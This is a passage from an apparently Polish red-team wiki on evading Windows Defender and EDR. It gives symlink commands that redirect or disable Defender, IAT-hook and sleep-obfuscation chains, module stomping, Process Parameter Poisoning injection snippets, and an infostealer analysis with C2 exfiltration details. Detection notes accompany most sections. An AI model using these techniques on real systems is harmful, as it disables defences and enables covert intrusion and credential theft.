Wybiera podkatalog z najwyższym leksykograficznie ciągiem wersji (np. `4.18.25070.5-0`), a następnie uruchamia stamtąd procesy usługi Defendera (odpowiednio aktualizując ścieżki usługi/rejestru). Ta selekcja ufa wpisom katalogowym, w tym directory reparse points (symlinks). Administrator może wykorzystać to do przekierowania Defendera do ścieżki zapisywalnej przez attackera i uzyskać DLL sideloading lub spowodować service disruption.<sup>[[21]](#references)[[22]](#references)</sup>

Preconditions
- Local Administrator (potrzebny do tworzenia katalogów/symlinks w katalogu Platform)
- Możliwość wykonania reboot lub wywołania ponownej selekcji platformy Defendera (restart usługi podczas boot)
- Wymagane są wyłącznie wbudowane tools (`mklink`)

Why it works
- Defender blokuje zapisy we własnych folderach, ale jego selekcja platformy ufa wpisom katalogowym i wybiera najwyższą leksykograficznie wersję bez sprawdzania, czy cel wskazuje na chronioną/zaufaną ścieżkę.

Step-by-step (example)
1) Prepare a writable clone of the current platform folder, e.g. `C:\TMP\AV`:
```cmd
set SRC="C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25070.5-0"
set DST="C:\TMP\AV"
robocopy %SRC% %DST% /MIR
```
2) Utwórz wewnątrz Platform dowiązanie symboliczne katalogu wyższej wersji wskazujące na Twój folder:
```cmd
mklink /D "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0" "C:\TMP\AV"
```
3) Wybór triggera (zalecany restart):
```cmd
shutdown /r /t 0
```
4) Zweryfikuj, czy MsMpEng.exe (WinDefend) działa ze przekierowanej ścieżki:
```powershell
Get-Process MsMpEng | Select-Object Id,Path
# or
wmic process where name='MsMpEng.exe' get ProcessId,ExecutablePath
```
Należy obserwować nową ścieżkę procesu w `C:\TMP\AV\` oraz konfigurację usługi/rejestr odzwierciedlające tę lokalizację.

Opcje post-exploitation
- DLL sideloading/code execution: Umieść/zastąp biblioteki DLL ładowane przez Defendera z jego katalogu aplikacji, aby wykonać kod w procesach Defendera. Zobacz powyższą sekcję: [DLL Sideloading & Proxying](#dll-sideloading--proxying).
- Service kill/denial: Usuń version-symlink, aby przy następnym uruchomieniu skonfigurowana ścieżka nie mogła zostać rozwiązana, a Defender nie uruchomił się:
```cmd
rmdir "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0"
```
> [!TIP]
> Pamiętaj, że ta technika sama w sobie nie zapewnia eskalacji uprawnień; wymaga praw administratora.

## API/IAT Hooking + Call-Stack Spoofing with PIC (Crystal Kit-style)

Red teams mogą przenieść runtime evasion z implantu C2 bezpośrednio do modułu docelowego, hookując jego Import Address Table (IAT) i kierując wybrane API przez kontrolowany przez atakującego, position-independent code (PIC). Uogólnia to evasion poza niewielki zestaw API udostępniany przez wiele kitów (np. CreateProcessA) i rozszerza te same zabezpieczenia na BOFs oraz biblioteki DLL używane podczas post-exploitation.<sup>[[3]](#references)[[4]](#references)[[5]](#references)</sup>

Podejście wysokiego poziomu
- Umieść blob PIC obok modułu docelowego za pomocą reflective loadera (dołączonego na początku lub jako companion). PIC musi być samowystarczalny i position-independent.
- Podczas ładowania host DLL przejdź przez jego IMAGE_IMPORT_DESCRIPTOR i zmodyfikuj wpisy IAT dla wybranych importów (np. CreateProcessA/W, CreateThread, LoadLibraryA/W, VirtualAlloc), aby wskazywały na cienkie wrappery PIC.
- Każdy wrapper PIC wykonuje evasion przed tail-callingiem rzeczywistego adresu API. Typowe mechanizmy evasion obejmują:
- Maskowanie/odmaskowanie pamięci wokół wywołania (np. szyfrowanie regionów beaconu, zmiana RWX→RX, zmiana nazw/uprawnień stron), a następnie przywrócenie stanu po wywołaniu.
- Call-stack spoofing: utworzenie niegroźnego stosu i przejście do docelowego API, aby analiza call stacka rozpoznawała oczekiwane ramki.<sup>[[9]](#references)</sup>
- Dla zapewnienia kompatybilności wyeksportuj interfejs, aby skrypt Aggressor (lub odpowiednik) mógł rejestrować API do hookowania dla Beacon, BOFs i bibliotek DLL używanych podczas post-exploitation.

Dlaczego w tym przypadku IAT hooking
- Działa dla każdego kodu używającego hookowanego importu, bez modyfikowania kodu narzędzia i bez polegania na Beaconie jako proxy dla konkretnych API.
- Obejmuje biblioteki DLL używane podczas post-exploitation: hookowanie LoadLibrary* pozwala przechwytywać ładowanie modułów (np. System.Management.Automation.dll, clr.dll) i stosować te same mechanizmy maskowania/stack evasion do ich wywołań API.
- Przywraca niezawodne użycie komend post-exploitation uruchamiających procesy w środowiskach z detekcjami opartymi na call stacku, opakowując CreateProcessA/W.

Minimalny szkic IAT hooka (pseudokod x64 C/C++)
```c
// For each IMAGE_IMPORT_DESCRIPTOR
//  For each thunk in the IAT
//    if imported function == "CreateProcessA"
//       WriteProcessMemory(local): IAT[idx] = (ULONG_PTR)Pic_CreateProcessA_Wrapper;
// Wrapper performs: mask(); stack_spoof_call(real_CreateProcessA, args...); unmask();
```
Notatki
- Zastosuj patch po relocations/ASLR i przed pierwszym użyciem importu. Reflective loaders, takie jak TitanLdr/AceLdr, pokazują hooking podczas DllMain załadowanego modułu.
- Utrzymuj wrappers w niewielkim rozmiarze i bezpieczne dla PIC; rozwiąż prawdziwe API za pomocą oryginalnej wartości IAT przechwyconej przed patchowaniem albo przez LdrGetProcedureAddress.
- Stosuj przejścia RW → RX dla PIC i unikaj pozostawiania stron jednocześnie zapisywalnych i wykonywalnych.

Stub spoofingu call stack
- Stub-y PIC w stylu Draugr budują fałszywy łańcuch wywołań (adresy powrotu wskazujące na łagodne moduły), a następnie wykonują pivot do prawdziwego API.
- Udaremnia to detekcje oczekujące kanonicznych stacków z Beacon/BOFs do wrażliwych API.
- Połącz to z technikami stack cutting/stack stitching, aby wylądować wewnątrz oczekiwanych frames przed prologiem API.

Integracja operacyjna
- Dodaj reflective loader przed post-ex DLLs, aby PIC i hooks inicjalizowały się automatycznie podczas ładowania DLL.
- Użyj skryptu Aggressor do zarejestrowania docelowych API, aby Beacon i BOFs mogły transparentnie korzystać z tej samej ścieżki evasion bez zmian w kodzie.

Kwestie detekcji/DFIR
- Integralność IAT: wpisy rozwiązujące się do adresów spoza image (heap/anon); okresowa weryfikacja import pointers.
- Anomalie stacka: adresy powrotu nienależące do załadowanych images; nagłe przejścia do PIC spoza image; niespójne pochodzenie RtlUserThreadStart.
- Telemetria loadera: zapisy do IAT wewnątrz procesu, wczesna aktywność DllMain modyfikująca import thunks, nieoczekiwane regiony RX tworzone podczas ładowania.
- Evasion image-load: jeśli hooking LoadLibrary*, monitoruj podejrzane ładowania automation/clr assemblies skorelowane ze zdarzeniami memory masking.

Powiązane building blocks i przykłady
- Reflective loaders wykonujące IAT patching podczas ładowania (np. TitanLdr, AceLdr)
- Memory masking hooks (np. simplehook) i stack-cutting PIC (stackcutting)
- Stub-y PIC do spoofingu call stack (np. Draugr)


## Import-Time IAT Hooking + Sleep Obfuscation (Crystal Palace/PICO)

### Import-time IAT hooks przez rezydentny PICO

Jeśli kontrolujesz reflective loader, możesz hookować importy **podczas `ProcessImports()`**, zastępując wskaźnik loadera `GetProcAddress` własnym resolverem, który najpierw sprawdza hooks:<sup>[[6]](#references)[[7]](#references)[[8]](#references)</sup>

- Zbuduj **resident PICO** (persistent PIC object), który przetrwa po zwolnieniu transient loader PIC.
- Wyeksportuj funkcję `setup_hooks()`, która nadpisuje import resolver loadera (np. `funcs.GetProcAddress = _GetProcAddress`).
- W `_GetProcAddress` pomijaj ordinal imports i użyj hash-based hook lookup, takiego jak `__resolve_hook(ror13hash(name))`. Jeśli hook istnieje, zwróć go; w przeciwnym razie przekaż wywołanie do prawdziwego `GetProcAddress`.
- Zarejestruj hook targets w czasie linkowania za pomocą wpisów Crystal Palace `addhook "MODULE$Func" "hook"`. Hook pozostaje poprawny, ponieważ znajduje się wewnątrz resident PICO.

Daje to **import-time IAT redirection** bez patchowania sekcji kodu załadowanej DLL po zakończeniu ładowania.

### Wymuszanie hookable imports, gdy target używa PEB-walking

Import-time hooks są uruchamiane tylko wtedy, gdy funkcja rzeczywiście znajduje się w IAT targetu. Jeśli moduł rozwiązuje API za pomocą PEB-walk + hash (bez import entry), wymuś prawdziwy import, aby ścieżka `ProcessImports()` loadera mogła go wykryć:

- Zastąp hashed export resolution (np. `GetSymbolAddress(..., HASH_FUNC_WAIT_FOR_SINGLE_OBJECT)`) bezpośrednim odwołaniem, takim jak `&WaitForSingleObject`.
- Kompilator wygeneruje wpis IAT, umożliwiając interception, gdy reflective loader rozwiązuje importy.

### Sleep/idle obfuscation w stylu Ekko bez patchowania `Sleep()`

Zamiast patchować `Sleep`, hookuj **rzeczywiste wait/IPC primitives**, których używa implant (`WaitForSingleObject(Ex)`, `WaitForMultipleObjects`, `ConnectNamedPipe`). W przypadku długich oczekiwań opakuj wywołanie w chain obfuscation w stylu Ekko, który szyfruje obraz w pamięci podczas idle:<sup>[[31]](#references)[[27]](#references)</sup>

- Użyj `CreateTimerQueueTimer` do zaplanowania sekwencji callbacks wywołujących `NtContinue` z przygotowanymi frames `CONTEXT`.
- Typowy chain (x64): ustaw obraz na `PAGE_READWRITE` → szyfruj RC4 za pomocą `advapi32!SystemFunction032` w całym mapped image → wykonaj blocking wait → odszyfruj RC4 → **przywróć uprawnienia poszczególnych sections**, przechodząc po sekcjach PE → zasygnalizuj zakończenie.
- `RtlCaptureContext` dostarcza szablon `CONTEXT`; sklonuj go do wielu frames i ustaw rejestry (`Rip/Rcx/Rdx/R8/R9`), aby wywołać każdy krok.

Szczegół operacyjny: zwracaj „success” dla długich oczekiwań (np. `WAIT_OBJECT_0`), aby caller kontynuował działanie, gdy obraz jest zamaskowany. Ten pattern ukrywa moduł przed scannerami podczas idle windows i pozwala uniknąć klasycznej sygnatury „patched `Sleep()`”.

Pomysły detekcyjne (oparte na telemetry)
- Serie callbacks `CreateTimerQueueTimer` wskazujących na `NtContinue`.
- `advapi32!SystemFunction032` używane na dużych, ciągłych buffers o rozmiarze obrazu.
- `VirtualProtect` dla dużego zakresu, po którym następuje niestandardowe przywracanie uprawnień poszczególnych sections.

### Runtime CFG registration dla sleep-obfuscation gadgets

Na targetach z włączonym CFG pierwszy indirect jump do mid-function gadget, takiego jak `jmp [rbx]` lub `jmp rdi`, zwykle spowoduje crash procesu z `STATUS_STACK_BUFFER_OVERRUN`, ponieważ gadget nie znajduje się w metadanych CFG modułu. Aby utrzymać chains w stylu Ekko/Kraken wewnątrz hardened processes:<sup>[[30]](#references)</sup>

- Zarejestruj każdy indirect destination używany przez chain za pomocą `NtSetInformationVirtualMemory(..., VmCfgCallTargetInformation, ...)` i wpisów `CFG_CALL_TARGET_VALID`.
- Dla adresów wewnątrz loaded images (`ntdll`, `kernel32`, `advapi32`) `MEMORY_RANGE_ENTRY` musi zaczynać się od **image base** i obejmować **pełny rozmiar obrazu**.
- Dla manually mapped/PIC/stomped regions użyj **allocation base** i zamiast tego rozmiaru alokacji.
- Oznacz nie tylko dispatch gadget, ale również exports osiągane pośrednio (`NtContinue`, `SystemFunction032`, `VirtualProtect`, `GetThreadContext`, `SetThreadContext`, wait/event syscalls) oraz wszelkie attacker-controlled executable sections, które staną się indirect targets.

Zmienia to sleep chains w stylu ROP/JOP z „działają tylko w procesach bez CFG” w wielokrotnego użytku primitive dla `explorer.exe`, browsers, `svchost.exe` i innych endpoints skompilowanych z `/guard:cf`.

### CET-safe stack spoofing dla sleeping threads

Pełna zamiana `CONTEXT` jest głośna i może powodować problemy w systemach z CET Shadow Stack, ponieważ spoofed `Rip` nadal musi być zgodny ze sprzętowym shadow stackiem. Bezpieczniejszy pattern sleep-masking wygląda następująco:<sup>[[30]](#references)</sup>

- Wybierz inny thread w tym samym procesie i odczytaj granice jego stacka `NT_TIB` / TEB (`StackBase`, `StackLimit`) za pomocą `NtQueryInformationThread`.
- Wykonaj backup prawdziwego TEB/TIB bieżącego threada.
- Przechwyć rzeczywisty sleeping context za pomocą `GetThreadContext`.
- Skopiuj **wyłącznie prawdziwy `Rip`** do spoof context, pozostawiając spoofed `Rsp`/stack state bez zmian.
- Podczas sleep window skopiuj `NT_TIB` spoof threada do bieżącego TEB, aby stack walkers rozwijały stack wewnątrz prawidłowego zakresu.
- Po zakończeniu wait przywróć oryginalny TIB i thread context.

Zachowuje to zgodny z CET instruction pointer, jednocześnie wprowadzając w błąd EDR stack walkers, które ufają metadanym stosu TEB podczas walidowania unwindów.

### Alternatywa oparta na APC: Kraken Mask

Jeśli dispatch przez timer-queue jest zbyt charakterystyczny, tę samą sekwencję sleep-encrypt-spoof-restore można wykonać z suspended helper thread za pomocą queued APCs:<sup>[[27]](#references)</sup>

- Utwórz helper thread z `NtTestAlert` jako entrypoint.
- Umieść przygotowane `CONTEXT` frames/APCs w kolejce za pomocą `NtQueueApcThread` i opróżniaj je przez `NtAlertResumeThread`.
- Przechowuj chain state na heapie zamiast na helper stack, aby uniknąć wyczerpania domyślnego, 64 KB thread stack.
- Użyj `NtSignalAndWaitForSingleObject`, aby atomowo zasygnalizować start event i zablokować wykonanie.
- Zawieszaj main thread przed przywróceniem TIB/context (`NtSuspendThread` → restore → `NtResumeThread`), aby zmniejszyć race window, w którym scanner mógłby przechwycić częściowo przywrócony stack.

Zamienia to sygnaturę `CreateTimerQueueTimer` + `NtContinue` na sygnaturę helper-thread/APC, zachowując te same cele RC4 masking i stack-spoofing.

Dodatkowe pomysły detekcyjne
- `NtSetInformationVirtualMemory` z `VmCfgCallTargetInformation` krótko przed sleeps, waits lub APC dispatch.
- `GetThreadContext`/`SetThreadContext` opakowane wokół `WaitForSingleObject(Ex)`, `NtWaitForSingleObject`, `NtSignalAndWaitForSingleObject` lub `ConnectNamedPipe`.
- `NtQueryInformationThread`, po którym następują bezpośrednie zapisy do granic stacka TEB/TIB bieżącego threada.
- Chains `NtQueueApcThread`/`NtAlertResumeThread`, które pośrednio docierają do `SystemFunction032`, `VirtualProtect` lub helpers przywracających uprawnienia sections.
- Wielokrotne użycie krótkich gadget signatures, takich jak `FF 23` (`jmp [rbx]`) lub `FF E7` (`jmp rdi`), jako dispatch pivots wewnątrz signed modules.


## Precision Module Stomping

Module stomping wykonuje payloady z **sekcji `.text` DLL już zmapowanej wewnątrz target process**, zamiast alokować oczywistą prywatną pamięć wykonywalną lub ładować nową sacrificial DLL. Wybrany target powinien być **załadowanym, obrazem wspieranym przez dysk**, którego code space może pomieścić payload bez uszkadzania code paths nadal potrzebnych procesowi.<sup>[[1]](#references)[[2]](#references)</sup>

### Niezawodny wybór targetu

Naive stomping przeciwko common modules, takim jak `uxtheme.dll` lub `comctl32.dll`, jest podatny na błędy: DLL może nie być załadowana w remote process, a zbyt mały code region spowoduje crash procesu. Bardziej niezawodny workflow:

1. Wylicz modules target process i zachowaj **names-only include list** już załadowanych DLLs.
2. Najpierw zbuduj payload i zapisz jego **dokładny rozmiar w bajtach**.
3. Przeskanuj candidate DLLs na dysku i porównaj PE section **`.text` `Misc_VirtualSize`** z rozmiarem payloadu. Jest to ważniejsze niż rozmiar pliku, ponieważ odzwierciedla rozmiar executable section **po zmapowaniu w pamięci**.
4. Przeparsuj **Export Address Table (EAT)** i wybierz RVA eksportowanej funkcji jako stomp start offset.
5. Oblicz **blast radius**: jeśli payload przekracza granicę wybranej funkcji, nadpisze sąsiednie exports ułożone za nią w pamięci.

Typowe helpery recon/selection spotykane w praktyce:
```cmd
list-process-dlls.exe -p <PID> -n -o c:\payloads\modules.txt
python find-stompable-dlls.py -d c:\Windows\System32 -i c:\payloads\modules.txt <payload_size>
python dump-exports.py -f <dll_path>
python blast-radius.py -f <dll_path> -fnc <export_name> -s <payload_size>
```
Operationalne uwagi
- Preferuj biblioteki DLL **już załadowane** w zdalnym procesie, aby uniknąć telemetrii `LoadLibrary`/nieoczekiwanych załadowań obrazów.
- Preferuj eksporty, które są rzadko wykonywane przez aplikację docelową; w przeciwnym razie normalne ścieżki kodu mogą trafić na nadpisane bajty przed utworzeniem wątku lub po nim.
- Duże implanty często wymagają zmiany sposobu osadzania shellcode z literału stringowego na **tablicę bajtów/inicjalizator klamrowy**, aby cały bufor był prawidłowo reprezentowany w kodzie injectora.

Pomysły na detekcję
- Zdalne zapisy do **wykonywalnych stron opartych na obrazie** (`MEM_IMAGE`, `PAGE_EXECUTE*`) zamiast częstszych prywatnych alokacji RWX/RX.
- Punkty wejścia eksportów, których bajty w pamięci nie odpowiadają już plikowi źródłowemu na dysku.
- Zdalne wątki lub pivoty kontekstu rozpoczynające wykonywanie wewnątrz legalnego eksportu DLL, którego pierwsze bajty zostały niedawno zmodyfikowane.
- Podejrzane sekwencje `VirtualProtect(Ex)` / `WriteProcessMemory` skierowane do stron `.text` DLL, po których następuje utworzenie wątku.

## Process Parameter Poisoning (P3)

Process Parameter Poisoning (P3) to technika **process-injection / EDR-evasion**, która omija klasyczną ścieżkę zdalnego zapisu (`VirtualAllocEx` + `WriteProcessMemory`). Zamiast kopiować bajty do już uruchomionego celu, wykorzystuje fakt, że Windows **kopiuje wybrane parametry startowe `CreateProcessW` do procesu potomnego** i przechowuje je w `PEB->ProcessParameters` (`RTL_USER_PROCESS_PARAMETERS`).<sup>[[28]](#references)[[29]](#references)</sup>

### Nośniki podatne na poisoning kopiowane przez `CreateProcessW`

Przydatne nośniki to:

- `lpCommandLine` → `RTL_USER_PROCESS_PARAMETERS.CommandLine`
- `lpEnvironment` (z `CREATE_UNICODE_ENVIRONMENT`) → `RTL_USER_PROCESS_PARAMETERS.Environment`
- `STARTUPINFO.lpReserved` → `RTL_USER_PROCESS_PARAMETERS.ShellInfo`

Praktyczne ograniczenia nośników:

- `lpCommandLine` musi wskazywać **zapisywalną pamięć** dla `CreateProcessW`, a jego długość jest ograniczona do **32 767 znaków Unicode**, wliczając terminator null.
- `lpEnvironment` musi być blokiem środowiska Unicode zawierającym kolejne stringi `NAME=VALUE\0`, zakończonym dodatkowym `\0`.
- `lpReserved` jest oficjalnie zarezerwowane, dlatego mapowanie `ShellInfo` należy traktować jako szczegół implementacyjny, a nie stabilny, udokumentowany kontrakt.

Dzięki temu zwykłe tworzenie procesu staje się **primitive transferu payloadu**. Operator tworzy proces potomny z kontrolowanymi przez atakującego danymi startowymi i pozwala Windows wykonać kopiowanie między procesami.

### Zdalny przepływ wyszukiwania bez remote write APIs

Po utworzeniu procesu potomnego rozwiąż adres skopiowanego bufora za pomocą prymitywów **read-only**:

1. `NtQueryInformationProcess(ProcessBasicInformation)` → pobierz `PROCESS_BASIC_INFORMATION.PebBaseAddress`
2. Odczytaj zdalny `PEB`
3. Podąż za `PEB.ProcessParameters`
4. Odczytaj `RTL_USER_PROCESS_PARAMETERS`
5. Użyj wybranego wskaźnika:
- `parameters.CommandLine.Buffer`
- `parameters.Environment`
- `parameters.ShellInfo.Buffer`

Minimalny przepływ:
```c
NtQueryInformationProcess(hProcess, ProcessBasicInformation, &pbi, sizeof(pbi), &retLen);
NtReadVirtualMemoryEx(hProcess, pbi.PebBaseAddress, &peb, sizeof(peb), &bytesRead, 0);
NtReadVirtualMemoryEx(hProcess, peb.ProcessParameters, &params, sizeof(params), &bytesRead, 0);
// params.CommandLine.Buffer / params.Environment / params.ShellInfo.Buffer
```
### Wykonywanie skopiowanego bufora parametrów

Skopiowany region parametrów jest zwykle oznaczony jako `RW`, a nie jako wykonywalny. Typowy chain P3 wygląda następująco:

1. Utwórz proces normalnie (bez wstrzymywania)
2. Nadaj wybranej stronie parametrów uprawnienia wykonywania za pomocą `NtProtectVirtualMemory` / `VirtualProtectEx`
3. Ponownie wykorzystaj uchwyt głównego wątku zwrócony w `PROCESS_INFORMATION`
4. Przekieruj wykonanie za pomocą `NtSetContextThread` (`CONTEXT_CONTROL`, nadpisanie `RIP`)

W przeciwieństwie do klasycznych workflow thread hijacking nie wymaga to `SuspendThread` / `ResumeThread`; context można zmienić bezpośrednio na zwróconym uchwycie głównego wątku.

Pozwala to uniknąć kilku API często monitorowanych pod kątem injection:

- `VirtualAllocEx` / `NtAllocateVirtualMemory(Ex)`
- `WriteProcessMemory` / `NtWriteVirtualMemory`
- `CreateRemoteThread` / `NtCreateThreadEx`
- często także `SuspendThread` / `ResumeThread`

### Ograniczenie bajtu null i staged shellcode

Wszystkie trzy nośniki zawierają **string lub dane podobne do stringa**, więc raw payload zawierający `0x00` zostaje obcięty podczas transferu. Praktycznym obejściem jest **null-free first stage**, który odtwarza constants w runtime, a następnie ładuje dowolny second stage.

Prosty pattern polega na syntezie constants na bazie XOR:
```asm
mov rax, XOR_A
mov r15, XOR_B
xor rax, r15 ; result = desired value, without embedding 0x00 bytes
```
Umożliwia to pierwszemu etapowi tworzenie stringów stosu, argumentów API, ścieżek DLL lub loadera shellcode drugiego etapu bez osadzania bajtów null w przesyłanym parametrze.

### Wywołania API oparte na stosie z pierwszego etapu

Gdy pierwszy etap musi wywołać API, takie jak `LoadLibraryA`, może:

- umieścić string/bufor na stosie celu
- zarezerwować **32-bajtowy x64 shadow space**
- ustawić `RCX`, `RDX`, `R8`, `R9` na stałe wartości lub wskaźniki względne względem `RSP`
- zachować **16-bajtowe wyrównanie `RSP`** przed wywołaniem

Następnie drugi etap można skopiować ze stosu do alokacji `PAGE_READWRITE`, zmienić jej uprawnienia na `PAGE_EXECUTE_READ` za pomocą `VirtualProtect` i wykonać skok do tego obszaru, unikając bezpośredniej alokacji RWX.

### Pomysły dotyczące wykrywania

Dobre możliwości polowania na zagrożenia wymienione przez autorów:

- `VirtualProtectEx` / `NtProtectVirtualMemory` ustawiające strony parametrów procesu jako wykonywalne
- następująca po tej zmianie uprawnień funkcja `SetThreadContext` / `NtSetContextThread`
- zdalne odczyty `PEB`, a następnie `RTL_USER_PROCESS_PARAMETERS`
- nietypowo długie lub charakteryzujące się wysoką entropią wartości `lpCommandLine`, `lpEnvironment` lub `STARTUPINFO.lpReserved` podczas tworzenia procesu

### Uwagi

- P3 to **sztuczka transferu między procesami**, a nie pełna primitive execution sama w sobie: skopiowany parametr nadal wymaga zmiany uprawnień na wykonywanie oraz metody przekierowania wykonania.
- `RtlCreateProcessReflection` / Dirty Vanity było rozważane przez autorów, ale odrzucono je, ponieważ wewnętrznie wykorzystuje podejrzane primitive, takie jak `NtWriteVirtualMemory` i `NtCreateThreadEx`.

## Tradecraft SantaStealer na potrzeby fileless evasion i kradzieży danych uwierzytelniających

SantaStealer (znany również jako BluelineStealer) pokazuje, jak współczesne info-stealery łączą AV bypass, anti-analysis i credential access w jednym workflow.<sup>[[24]](#references)</sup>

### Filtrowanie według układu klawiatury i opóźnienie sandboxa

- Flaga konfiguracji (`anti_cis`) wylicza zainstalowane układy klawiatury za pomocą `GetKeyboardLayoutList`. Jeśli zostanie znaleziony układ cyrylicy, sample tworzy pusty znacznik `CIS` i kończy działanie przed uruchomieniem stealerów, dzięki czemu nigdy nie uruchamia się w wykluczonych lokalizacjach, pozostawiając jednocześnie artifact przydatny do threat huntingu.
```c
HKL layouts[64];
int count = GetKeyboardLayoutList(64, layouts);
for (int i = 0; i < count; i++) {
LANGID lang = PRIMARYLANGID(HIWORD((ULONG_PTR)layouts[i]));
if (lang == LANG_RUSSIAN) {
CreateFileA("CIS", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
ExitProcess(0);
}
}
Sleep(exec_delay_seconds * 1000); // config-controlled delay to outlive sandboxes
```
### Wielowarstwowa logika `check_antivm`

- Variant A przechodzi przez listę procesów, oblicza dla każdej nazwy hash za pomocą custom rolling checksum i porównuje go z wbudowanymi blocklistami debuggerów/sandboxów; powtarza checksum dla nazwy komputera i sprawdza katalogi robocze, takie jak `C:\analysis`.
- Variant B analizuje właściwości systemu (minimalną liczbę procesów, niedawny uptime), wywołuje `OpenServiceA("VBoxGuest")` w celu wykrycia dodatków VirtualBox i wykonuje kontrole czasu wokół operacji sleep, aby wykryć single-stepping. Każde wykrycie powoduje przerwanie działania przed uruchomieniem modułów.

### Bezplikowy helper + podwójne ładowanie reflective z użyciem ChaCha20

- Główny DLL/EXE zawiera helper Chromium do kradzieży danych uwierzytelniających, który jest zapisywany na dysku albo ręcznie mapowany w pamięci; w trybie fileless samodzielnie rozwiązuje importy/relokacje, dzięki czemu żadne artefakty helpera nie są zapisywane.
- Helper przechowuje DLL drugiego etapu, dwukrotnie zaszyfrowany za pomocą ChaCha20 (dwa klucze 32-bajtowe + 12-bajtowe nonce). Po obu etapach blob jest ładowany za pomocą reflective loading (bez `LoadLibrary`), a następnie wywoływane są eksporty `ChromeElevator_Initialize/ProcessAllBrowsers/Cleanup`, pochodzące z [ChromElevator](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption).<sup>[[25]](#references)</sup>
- Routines ChromElevator wykorzystują reflective process hollowing oparte na direct syscalls, aby wstrzyknąć kod do działającej przeglądarki Chromium, odziedziczyć klucze AppBound Encryption i odszyfrować hasła/cookies/karty płatnicze bezpośrednio z baz SQLite pomimo hardeningu ABE.


### Modularne zbieranie w pamięci i chunked HTTP exfil

- `create_memory_based_log` iteruje po globalnej tabeli wskaźników do funkcji `memory_generators` i uruchamia po jednym wątku dla każdego włączonego modułu (Telegram, Discord, Steam, screenshots, dokumenty, browser extensions itd.). Każdy wątek zapisuje wyniki do współdzielonych buforów i zgłasza liczbę plików po około 45-sekundowym oknie `join`.
- Po zakończeniu wszystkie dane są kompresowane do ZIP za pomocą statycznie linkowanej biblioteki `miniz` jako `%TEMP%\\Log.zip`. Następnie `ThreadPayload1` wykonuje `sleep` przez 15 sekund i przesyła archiwum strumieniowo w chunkach po 10 MB za pomocą HTTP POST do `http://<C2>:6767/upload`, podszywając się pod boundary przeglądarki `multipart/form-data` (`----WebKitFormBoundary***`). Każdy chunk zawiera `User-Agent: upload`, `auth: <build_id>`, opcjonalnie `w: <campaign_tag>`, a ostatni chunk dodaje `complete: true`, aby C2 wiedział, że reassembly zostało zakończone.

## References

- [1] [Zaawansowany tradecraft evasion: precyzyjne module stomping](https://medium.com/@toneillcodes/advanced-evasion-tradecraft-precision-module-stomping-b51feb0978fe)
- [2] [toneillcodes/windows-process-injection](https://github.com/toneillcodes/windows-process-injection)
- [3] [Crystal Kit – blog](https://rastamouse.me/crystal-kit/)
- [4] [Crystal-Kit – GitHub](https://github.com/rasta-mouse/Crystal-Kit)
- [5] [Elastic – Call stacks, koniec z darmową przepustką dla malware](https://www.elastic.co/security-labs/call-stacks-no-more-free-passes-for-malware)
- [6] [Crystal Palace – dokumentacja](https://tradecraftgarden.org/docs.html)
- [7] [simplehook – przykład](https://tradecraftgarden.org/simplehook.html)
- [8] [stackcutting – przykład](https://tradecraftgarden.org/stackcutting.html)
- [9] [Draugr – spoofing call-stack PIC](https://github.com/NtDallas/Draugr)
- [10] [Unit42 – Nowy łańcuch infekcji i obfuscation oparty na ConfuserEx w DarkCloud Stealer](https://unit42.paloaltonetworks.com/new-darkcloud-stealer-infection-chain/)
- [11] [Synacktiv – Czy należy ufać swojemu zero trust? Omijanie posture checks Zscaler](https://www.synacktiv.com/en/publications/should-you-trust-your-zero-trust-bypassing-zscaler-posture-checks.html)
- [12] [Check Point Research – Przed ToolShell: analiza wcześniejszych operacji ransomware Storm-2603](https://research.checkpoint.com/2025/before-toolshell-exploring-storm-2603s-previous-ransomware-operations/)
- [13] [Hexacorn – DLL ForwardSideLoading: nadużywanie forwarded exports](https://www.hexacorn.com/blog/2025/08/19/dll-forwardsideloading/)
- [14] [Inwentarz forwarded exports w Windows 11 (apis_fwd.txt)](https://hexacorn.com/d/apis_fwd.txt)
- [15] [Microsoft Learn – Kolejność wyszukiwania dynamic-link library](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)
- [16] [Microsoft Learn – Bezpieczeństwo procesów i prawa dostępu](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)
- [17] [Microsoft – Dokumentacja EKU (MS-PPSEC)](https://learn.microsoft.com/openspecs/windows_protocols/ms-ppsec/651a90f3-e1f5-4087-8503-40d804429a88)
- [18] [Sysinternals – Process Monitor](https://learn.microsoft.com/sysinternals/downloads/procmon)
- [19] [Launcher CreateProcessAsPPL](https://github.com/2x7EQ13/CreateProcessAsPPL)
- [20] [Zero Salarium – Odpieranie EDR dzięki Protected Process Light (PPL)](https://www.zerosalarium.com/2025/08/countering-edrs-with-backing-of-ppl-protection.html)
- [21] [Zero Salarium – Przełamywanie warstwy ochronnej Windows Defender za pomocą techniki folder redirect](https://www.zerosalarium.com/2025/09/Break-Protective-Shell-Windows-Defender-Folder-Redirect-Technique-Symlink.html)
- [22] [Microsoft – Dokumentacja polecenia mklink](https://learn.microsoft.com/windows-server/administration/windows-commands/mklink)
- [23] [Check Point Research – Under the Pure Curtain: od RAT-a przez builder do codera](https://research.checkpoint.com/2025/under-the-pure-curtain-from-rat-to-builder-to-coder/)
- [24] [Rapid7 – SantaStealer nadchodzi: nowy, ambitny infostealer](https://www.rapid7.com/blog/post/tr-santastealer-is-coming-to-town-a-new-ambitious-infostealer-advertised-on-underground-forums)
- [25] [ChromElevator – odszyfrowywanie Chrome App Bound Encryption](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption)
- [26] [Check Point Research – GachiLoader: pokonywanie malware Node.js za pomocą API Tracing](https://research.checkpoint.com/2025/gachiloader-node-js-malware-with-api-tracing/)
- [27] [Sleeping Beauty: usypianie Adaptix za pomocą Crystal Palace](https://maorsabag.github.io/posts/adaptix-stealthpalace/sleeping-beauty/)
- [28] [SensePost – Process Parameter Poisoning](https://sensepost.com/blog/2026/process-parameter-poisoning/)
- [29] [Orange Cyberdefense – p3-loader](https://github.com/Orange-Cyberdefense/p3-loader)
- [30] [Sleeping Beauty II: CFG, CET i spoofing stosu](https://maorsabag.github.io/posts/adaptix-stealthpalace/sleeping-beauty-ii)
- [31] [Obfuscation sleep Ekko](https://github.com/Cracked5pider/Ekko)
